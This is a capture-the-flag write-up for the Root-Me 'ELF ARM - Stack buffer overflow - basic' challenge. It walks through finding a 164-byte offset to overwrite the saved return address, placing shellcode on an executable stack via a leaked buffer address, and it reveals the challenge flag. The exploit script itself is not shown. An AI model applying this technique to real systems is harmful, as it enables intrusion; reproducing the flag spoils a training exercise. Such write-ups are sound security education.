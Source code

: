 # ELF ARM - Stack buffer overflow - basic
https://www.root-me.org/en/Challenges/App-System/ELF-ARM-Stack-buffer-overflow-basic
```
Conquer the binary to read the .passwd file.

PIE	    Position Independent Executable	          No        
RelRO	    Read Only relocations	                  Yes
NX	    Non-Executable Stack	                  No
ASLR	    Address Space Layout Randomization	          Yes
SF	    Source Fortification	                  No
SSP	    Stack-Smashing Protection	                  No
SRC	    Source code access	                          No

Challenge connection informations :

Host	            challenge04.root-me.org
Protocol	    TCP
Port	            61045
SSH access	    ssh -p 2224 app-systeme-ch45@challenge04.root-me.org
Username	    app-systeme-ch45
Password	    app-systeme-ch45
```

First, in order to plan how to solve this challenge, let's check the files and their permissions:
```bash
app-systeme-ch45@challenge04:~$ ll
total 44
drwxr-x---  2 app-systeme-ch45-cracked app-systeme-ch45 4096 Apr  7  2018 .
drwxr-xr-x 13 root                     root             4096 Mar 17  2018 ..
-r-xr-x---  1 app-systeme-ch45-cracked app-systeme-ch45 8296 May 19  2017 ch45
-r--------  1 app-systeme-ch45-cracked app-systeme-ch45  577 May 19  2017 ch45.c
-r--------  1 root                     root               46 Apr  7  2018 ._firewall
-r--------  1 root                     root              795 May 19  2017 Makefile
-rw-r-----  1 app-systeme-ch45-cracked app-systeme-ch45  306 May 19  2017 .motd
-r--------  1 app-systeme-ch45-cracked app-systeme-ch45   33 May 19  2017 .passwd
-rw-r-----  1 app-systeme-ch45-cracked app-systeme-ch45  516 May 19  2017 xinetd-app-systeme-ch45.conf
```

Next, let's check the ```xinetd-app-systeme-ch45.conf``` file:
```bash
service app-systeme-ch45
{
       flags                   = IPv6
       instances               = 50
       disable                 = no
       port                    = 61045
       socket_type             = stream
       protocol                = tcp
       wait                    = no
       user                    = app-systeme-ch45-cracked
       server                  = /usr/bin/timeout
       server_args             = -k1m 1m /challenge/app-systeme/ch45/ch45
       type                    = UNLISTED
}
```

So the plan is to overflow the stack using the remote service (in port 61045), in order to run a shell under _app-systeme-ch45-cracked_ permissions, which will display the file's content.<br>

If we'll execute the binary, it will display the following output:
```bash
app-systeme-ch45@challenge04:~$ ./ch45
Give me data to dump:
1234567890
0xbedd5ae8:  31 32 33 34 35 36 37 38 39 30
Dump again (y/n):
y                
Give me data to dump:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
0xbedd5ae8:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5af8:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b08:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b18:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b28:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b38:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b48:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b58:  61 61 61 61 61
Dump again (y/n):
n
```

Ok. So, probably we'll be able to override a _lr_ value (or something like that) in the stack.<br>
Luckily, most of the function prologs pushing the _lr_ value, in order to call other functions. And most of the function epilogues popping it back.<br>
So, because there are calls to _scanf_ and _printf_ in the main function, the function's prolog should push the _lr_ value, and the function's epilogue should pop it, and put it in _pc_.<br>
In fact, the **main** function does it:
```asm
103d8:	e3012008 	movw	r2, #4104	; 0x1008
103dc:	e3402002 	movt	r2, #2
103e0:	e92d4ff0 	push	{r4, r5, r6, r7, r8, r9, sl, fp, lr}
[...snip...]
104fc:	e8bd8ff0 	pop	{r4, r5, r6, r7, r8, r9, sl, fp, pc}
```

Nice. So we've got a plan - override the _lr_ value pushed at the beginning of the function with an address to our shellcode, and then stop the execution (by not wanting to dump again). Then, our address will be popped to _pc_.<br><br>

After few tries, the following string gave this information:
```gdb
Give me data to dump:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDDD
0xbefffab8:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffac8:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffad8:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffae8:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffaf8:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb08:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb18:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb28:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb38:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb48:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb58:  41 41 41 41 44 44 44 44
Dump again (y/n):
n

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
```
Awesome! so we can control the _pc_ value at the end of the **main** function (it seems to be at offset of 164 bytes).<br>
Now, we'll need a place to store how shellcode.<br>
In each run, the program will show the address of the input buffer. Because the _NX_ is not set, and the address remains the same as long as the process still runs, it looks like a nice and warm place to put our shellcode.<br><br>
So, basically we'll have to follow the following steps:
<ol>
  <li>Leak the address by inserting a simple input (e.g "A").</li>
  <li>Build a shellcode which will <i>cat</i> the file's content, and override the <i>lr</i> value with the buffer's address.</li>
  <li>Watch the magic happens.</li>
</ol>
<br>

So, I wrote a python3 script which will do it. It's output is:
```sh
[!] Shellcode's length: 80.
[+] Starting communicating with the service.
[+] Found stack offset - 0xbee0fc58.
[+] Preparing the shellcode
[+] The shellcode sent to the remote service.
[+] Flag: 0v3rfl0wing_buff3rs_l1k3_4_b0ss!.
```
